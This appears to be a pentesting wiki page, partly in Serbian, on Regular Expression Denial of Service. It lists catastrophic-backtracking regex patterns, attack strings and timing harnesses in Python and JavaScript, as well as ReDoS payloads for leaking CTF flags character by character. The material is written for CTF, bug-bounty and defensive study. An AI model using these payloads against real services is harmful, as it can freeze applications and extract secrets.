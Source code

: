 # Regular expression Denial of Service - ReDoS

{{#include ../banners/hacktricks-training.md}}

# Regular Expression Denial of Service (ReDoS)

A **Regular Expression Denial of Service (ReDoS)** happens when someone takes advantage of weaknesses in how regular expressions (a way to search and match patterns in text) work. Sometimes, when regular expressions are used, they can become very slow, especially if the piece of text they're working with gets larger. This slowness can get so bad that it grows really fast with even small increases in the text size. Attackers can use this problem to make a program that uses regular expressions stop working properly for a long time.

## Problematični naivni Regex algoritam

**Pogledajte detalje na [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**

### Ponašanje engine-a i iskoristivost

- Većina popularnih engine-a (PCRE, Java `java.util.regex`, Python `re`, JavaScript `RegExp`) koristi **backtracking** VM. Namerno oblikovani ulazi koji stvaraju mnogo preklapajućih načina za poklapanje podobraza prisiljavaju eksponencijalno ili visokopolinomno backtracking.
- Neki engine-i/biblioteke su dizajnirani da budu **ReDoS-resilient** po konstrukciji (bez backtrackinga), npr. **RE2** i portovi zasnovani na konačnim automatima koji garantuju linearno vreme u najgorem slučaju; korišćenje njih za nepouzdane ulaze uklanja backtracking DoS primitiv. Pogledajte reference na kraju za detalje.

## Evil Regexes <a href="#evil-regexes" id="evil-regexes"></a>

Zlonamerni regular expression pattern je onaj koji se može **zaglaviti na namenskom ulazu i izazvati DoS**. Zlonamerni regex obrasci tipično sadrže grupisanje sa ponavljanjem i ponavljanje ili alternaciju sa preklapanjem unutar ponovljene grupe. Neki primeri zlonamernih obrazaca uključuju:

- (a+)+
- ([a-zA-Z]+)\*
- (a|aa)+
- (a|a?)+
- (.*a){x} for x > 10

Svi ovi su ranjivi na ulaz `aaaaaaaaaaaaaaaaaaaaaaaa!`.

### Praktičan recept za pravljenje PoC-ova

Većina katastrofalnih slučajeva prati sledeći obrazac:

- Prefiks koji vas uvodi u ranjivi subpattern (opciono).
- Dug niz karaktera koji izaziva dvosmislena poklapanja unutar ugnježdenih/preklapajućih kvantifikatora (npr. mnogo `a`, `_` ili razmaka).
- Završni karakter koji primorava celokupnu proveru na neuspeh tako da engine mora da backtrack-uje kroz sve mogućnosti (često karakter koji se neće poklopiti sa poslednjim tokenom, kao `!`).

Minimalni primeri:

- `(a+)+$` vs input `"a"*N + "!"`
- `\w*_*\w*$` vs input `"v" + "_"*N + "!"`

Povećajte N i posmatrajte supralinearni rast.

#### Brzi timing harness (Python)
```python
import re, time
pat = re.compile(r'(\w*_)\w*$')
for n in [2**k for k in range(8, 15)]:
s = 'v' + '_'*n + '!'
t0=time.time(); pat.search(s); dt=time.time()-t0
print(n, f"{dt:.3f}s")
```
## ReDoS Payloads

### String Exfiltration via ReDoS

U CTF-u (ili bug bounty) možda **kontrolišete Regex kojim se poklapa osetljiva informacija (flag)**. Tada može biti korisno da naterate **stranicu da se zamrzne (timeout ili duže vreme obrade)** ako se **Regex poklapa**, a ne ako se ne poklapa. Na ovaj način moći ćete **exfiltrate** string **char by char**:

- In [**this post**](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets) you can find this ReDoS rule: `^(?=<flag>)((.*)*)*salt$`
- Primer: `^(?=HTB{sOmE_fl§N§)((.*)*)*salt$`
- In [**this writeup**](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html) you can find this one:`<flag>(((((((.*)*)*)*)*)*)*)!`
- In [**this writeup**](https://ctftime.org/writeup/25869) he used: `^(?=${flag_prefix}).*.*.*.*.*.*.*.*!!!!$`

### ReDoS: kontrola inputa i regex-a

Slede primeri **ReDoS** gde **kontrolišete** i **input** i **regex**:
```javascript
function check_time_regexp(regexp, text) {
var t0 = new Date().getTime()
new RegExp(regexp).test(text)
var t1 = new Date().getTime()
console.log("Regexp " + regexp + " took " + (t1 - t0) + " milliseconds.")
}

// This payloads work because the input has several "a"s
;[
//  "((a+)+)+$",  //Eternal,
//  "(a?){100}$", //Eternal
"(a|a?)+$",
"(\\w*)+$", //Generic
"(a*)+$",
"(.*a){100}$",
"([a-zA-Z]+)*$", //Generic
"(a+)*$",
].forEach((regexp) => check_time_regexp(regexp, "aaaaaaaaaaaaaaaaaaaaaaaaaa!"))

/*
Regexp (a|a?)+$ took 5076 milliseconds.
Regexp (\w*)+$ took 3198 milliseconds.
Regexp (a*)+$ took 3281 milliseconds.
Regexp (.*a){100}$ took 1436 milliseconds.
Regexp ([a-zA-Z]+)*$ took 773 milliseconds.
Regexp (a+)*$ took 723 milliseconds.
*/
```
### Beleške o jeziku/engine-u za napadače

- JavaScript (browser/Node): Ugrađeni `RegExp` koristi backtracking i često je eksploatabilan kada su regex i input pod uticajem napadača.
- Python: `re` koristi backtracking. Duge dvosmislene sekvence u kombinaciji sa neuspešnim tail-om često dovode do katastrofalnog backtrackinga.
- Java: `java.util.regex` koristi backtracking. Ako kontrolišeš samo ulaz, traži endpoint-e koji koriste kompleksne validatore; ako kontrolišeš pattern-e (npr. čuvana pravila), ReDoS je obično trivijalan.
- Engines such as **RE2/RE2J/RE2JS** or the **Rust regex** crate are designed to avoid catastrophic backtracking. If you hit these, focus on other bottlenecks (e.g., enormous patterns) or find components still using backtracking engines.

## Alati

- [https://github.com/doyensec/regexploit](https://github.com/doyensec/regexploit)
- Pronađi ranjive regex-e i automatski generiši zlonamerne ulaze. Primeri:
- `pip install regexploit`
- Analiziraj jedan pattern interaktivno: `regexploit`
- Skeniraj Python/JS kod za regex-e: `regexploit-py path/` and `regexploit-js path/`
- [https://devina.io/redos-checker](https://devina.io/redos-checker)
- [https://github.com/davisjam/vuln-regex-detector](https://github.com/davisjam/vuln-regex-detector)
- End‑to‑end pipeline za ekstrakciju regex-a iz projekta, detekciju ranjivih i validaciju PoC-ova u ciljnom jeziku. Korisno za pretraživanje velikih codebase-ova.
- [https://github.com/tjenkinson/redos-detector](https://github.com/tjenkinson/redos-detector)
- Jednostavna CLI/JS biblioteka koja analizira backtracking kako bi prijavila da li je pattern siguran.

> Savet: Kada kontrolišeš samo ulaz, generiši stringove sa dužinama koje se dupliraju (npr. 2^k karaktera) i prati latenciju. Eksponencijalni rast snažno ukazuje na izvodljiv ReDoS.

## Izvori

- [https://owasp.org/www-community/attacks/Regular*expression_Denial_of_Service*-_ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)
- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html](https://github.com/jorgectf/Created-CTF-Challenges/blob/main/challenges/TacoMaker%20@%20DEKRA%20CTF%202022/solver/solver.html)
- [https://ctftime.org/writeup/25869](https://ctftime.org/writeup/25869)
- SoK (2024): Pregled literature i inženjeringa Regular Expression Denial of Service (ReDoS) — [https://arxiv.org/abs/2406.11618](https://arxiv.org/abs/2406.11618)
- Why RE2 (linear‑time regex engine) — [https://github.com/google/re2/wiki/WhyRE2](https://github.com/google/re2/wiki/WhyRE2)

{{#include ../banners/hacktricks-training.md}}
